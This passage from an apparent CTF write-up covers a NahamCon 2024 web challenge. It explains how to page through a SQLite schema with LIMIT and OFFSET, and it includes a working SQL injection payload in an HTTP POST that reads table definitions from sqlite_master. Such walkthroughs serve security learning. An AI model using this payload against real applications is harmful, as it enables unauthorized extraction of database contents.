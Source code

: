 ![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132834.png)

Nice... Uh wait a minute... Since the product display page only shows 1 record per product, we only got 1 record in the database structure value.

To solve this issue, we can use the **`LIMIT` and `OFFSET` clause**, where we want to `LIMIT` 1 record only, and the get position of the record via `OFFSET`.

**Payloads:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+0));--+-
```
